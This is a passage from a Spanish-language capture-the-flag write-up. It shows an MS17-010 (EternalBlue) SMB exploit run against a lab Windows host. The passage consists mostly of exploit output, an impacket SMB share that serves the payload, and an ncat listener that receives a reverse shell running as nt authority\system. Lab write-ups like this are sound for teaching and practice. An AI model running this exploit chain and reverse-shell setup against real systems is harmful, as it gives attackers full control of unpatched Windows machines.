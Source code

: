 ```bash
CONNECTION: 0xfffffa800328a7c0
SESSION: 0xfffff8a008eed2e0
FLINK: 0xfffff8a0081f8088
InParam: 0xfffff8a0081f115c
MID: 0x803
unexpected alignment, diff: 0x6088
leak failed... try again
CONNECTION: 0xfffffa800328a7c0
SESSION: 0xfffff8a008eed2e0
FLINK: 0xfffff8a008210088
InParam: 0xfffff8a00820a15c
MID: 0x903
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service ijHA.....
Starting service ijHA.....
The NETBIOS connection with the remote host timed out.
Removing service ijHA.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

Despues de unos segundos se realiza la petición a nuestro recurso compartido.


```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.40,49158)
[*] AUTHENTICATE_MESSAGE (\,HARIS-PC)
[*] User HARIS-PC\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[-] Unknown level for query path info! 0xf
```

y recibimos la conexión directamente como el usuario `nt authority\system`.

```cmd
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49159.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
